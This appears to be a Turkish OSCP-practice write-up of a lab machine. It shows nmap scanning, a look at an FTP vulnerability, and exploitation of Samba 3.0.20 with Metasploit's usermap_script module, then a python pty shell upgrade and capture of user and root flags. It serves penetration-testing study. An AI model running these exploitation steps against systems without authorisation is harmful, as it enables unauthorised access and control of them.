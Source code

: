 # OSCP_Preparation

Makine IP: 10.129.86.76 

 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
Nmap -A 10.129.86.76  
```
 
![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\5.PNG)

https://www.exploit-db.com/exploits/17491 - FTP versiyonunda Command Execution açığı olduğu görülüyor. 

FTP’den girmeyi denedim. 

```console
tcp> open 

(to) 10.129.86.76  
```

![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\6.PNG)


PASV FTP, Dosya Aktarım Protokolü (FTP) bağlantılarını kurmak için alternatif bir moddur. Kısacası, bir FTP istemcisinin gelen bağlantılarını engelleyen güvenlik duvarı sorununu çözmektedir. Pasif FTP, bir güvenlik duvarının arkasındaki FTP istemcileri için tercih edilen bir FTP modudur. 
 
Ftp'den devam edemediğim için samba da ilgili versiyonda açık olup olmadığına bakıyorum. 
 

 
```console
msf6 > search samba 3.0.20 
```

![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\1.PNG)

Command Execution açıklığı olduğunu gördükten sonra exploitimi hazırlamaya başlıyorum.

  
```console
msf6 > use exploit/multi/samba/usermap_script 
```

![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\2.PNG)

 
```console
msf6 exploit(multi/samba/usermap_script) > set RPORT 445 
```
 Burada dikkat edilmesi gereken kısım port. Nmap ile elde ettiğimiz sonucu unutmadan devam ediyoruz.

Ve en sevilen kısım EXPLOİT ! Enter..
```console
msf6 exploit(multi/samba/usermap_script) > exploit 
```
![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\3.PNG)

Başarılı olduk. Şimdi TTY shell alalım işimiz kolay olsun.
  
```console
python -c 'import pty; pty.spawn("/bin/sh")' 
```

![image](C:\Users\90532\Documents\OSCP_github\OSCP_Preparation\Assets\4.PNG)


Hem user hem root flag'ini almış bulunuyoruz :)
 

 

 

